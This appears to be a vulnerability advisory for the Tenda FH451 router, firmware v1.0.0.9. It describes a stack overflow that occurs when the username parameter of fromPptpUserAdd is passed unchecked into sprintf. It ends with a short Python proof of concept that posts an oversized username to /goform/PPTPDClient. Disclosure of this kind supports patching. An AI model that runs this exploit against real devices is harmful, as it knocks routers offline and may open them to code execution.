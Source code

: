 # Tenda FH451 fromPptpUserAdd
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the username parameter in the fromPptpUserAdd function.

### Vulnerability details
In function fromPptpUserAdd line 26, it reads in a user-provided parameter `username`. The variable `Var` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_4`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/11.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPDClient"

data = {
    "username": "a" * 2000,
    "opttype": "1"
}

response = requests.post(url, data=data)
print(response.text)
```